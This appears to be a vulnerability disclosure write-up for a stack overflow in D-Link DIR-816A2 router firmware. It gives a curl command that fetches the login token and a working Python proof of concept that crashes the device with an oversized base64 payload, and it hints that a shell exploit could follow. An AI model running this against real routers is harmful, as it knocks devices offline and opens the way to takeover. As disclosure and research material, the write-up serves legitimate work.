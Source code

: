 # DIR-816A2_FWv1.10CNB05_R1B011D88210.img Stack overflow vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/form2WizardStep4.cgi.  The contents obtained by the wizardstep4_pskpwd parameter are passed to V9, and then the contents matched by V9 are decoded and put into the V15 stack without size checking, resulting in a stack overflow.

![](img/2.png#center)

![](img/3.png#center)
## POC

Gets the token ID

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Run poc

```python
import requests
import base64

tokenid = 'xxx'

url = 'http://192.168.0.1/goform/form2WizardStep4.cgi'

payload = base64.b64encode(b'a' * 10000)

data = {
    'tokenid': tokenid,
    'wizardstep4_next': 'a',
    'wizardstep4_wlanDisabled': 'b',
    'wizardstep4_ssid': 'c',
    'wizardstep4_sec': 'd',
    'wizardstep4_pskpwd': payload,
    'wizardstep4_chanwid': 'e'
}

r = requests.post(url, data)
hunzi = r.text
print(hunzi)
```

You can see the router crash, and finally you can write an exp to get a shell.
